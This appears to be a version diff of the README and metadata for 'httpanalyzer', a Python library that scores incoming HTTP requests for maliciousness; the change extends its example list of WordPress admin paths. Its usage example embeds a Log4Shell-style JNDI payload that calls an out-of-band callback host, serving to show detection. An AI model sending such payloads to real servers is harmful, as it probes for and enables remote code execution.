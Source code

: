 -To reduce the amount of false positives, specify all admin panels you are using. For WordPress this would be `['wp-content', 'wp-config', 'wp-includes']`.
+To reduce the amount of false positives, specify all admin panels you are using. For WordPress this would be `['wp-content', 'wp-config', 'wp-includes', 'wp-admin', 'admin']`.
 
 ### Flask
 
 httpanalyzer natively supports flask request objects:
 
 ```
 instance = httpanalyzer.FlaskRequest(flask.request)
```

#### html2text {}

```diff
@@ -1,8 +1,8 @@
-Metadata-Version: 2.1 Name: httpanalyzer Version: 0.1.3 Summary: Library for
+Metadata-Version: 2.1 Name: httpanalyzer Version: 0.1.4 Summary: Library for
 analyzing http-requests Author-email: Martin Merkli
 merkli@protonmail.com> License: MIT License Project-URL: homepage, https://
 github.com/MartinMerkli/httpanalyzer Project-URL: repository, https://
 github.com/MartinMerkli/httpanalyzer Keywords: python,http Classifier: License
 :: OSI Approved :: MIT License Classifier: Operating System :: OS Independent
 Classifier: Programming Language :: Python :: 3 Classifier: Intended Audience
 :: Developers Classifier: Intended Audience :: System Administrators Requires-
@@ -18,13 +18,14 @@
 admin_panels) ``` Print the malicious rating: ``` print(instance.malicious())
 ``` ### Example ``` import httpanalyzer instance = httpanalyzer.Request(
 {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/
 avif,image/webp,*/*;q=0.8', 'Accept-Encoding': 'gzip, deflate, br', 'Accept-
 Language': 'en-US,en;q=0.5', 'Connection': 'keep-alive', 'Host': '127.0.0.1:
 80', 'User-Agent': 'curl/7.82.0'}, '159.223.205.51', '/api/geojson?url=${jndi:
 ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}', ['wp-content', 'wp-
-config', 'wp-includes'] ) print(f"Malicious rating: {instance.malicious() *
-100}%") ``` ### Admin Panels To reduce the amount of false positives, specify
-all admin panels you are using. For WordPress this would be `['wp-content',
-'wp-config', 'wp-includes']`. ### Flask httpanalyzer natively supports flask
-request objects: ``` instance = httpanalyzer.FlaskRequest(flask.request) ``` ##
-Dependencies Python 3.6 or newer is required. Older versions do not work.
+config', 'wp-includes', 'wp-admin', 'admin'] ) print(f"Malicious rating:
+{instance.malicious() * 100}%") ``` ### Admin Panels To reduce the amount of
+false positives, specify all admin panels you are using. For WordPress this
+would be `['wp-content', 'wp-config', 'wp-includes', 'wp-admin', 'admin']`. ###
+Flask httpanalyzer natively supports flask request objects: ``` instance =
+httpanalyzer.FlaskRequest(flask.request) ``` ## Dependencies Python 3.6 or
+newer is required. Older versions do not work.
```

### Comparing `httpanalyzer-0.1.3/README.md` & `httpanalyzer-0.1.4/README.md`

 * *Files 8% similar despite different names*
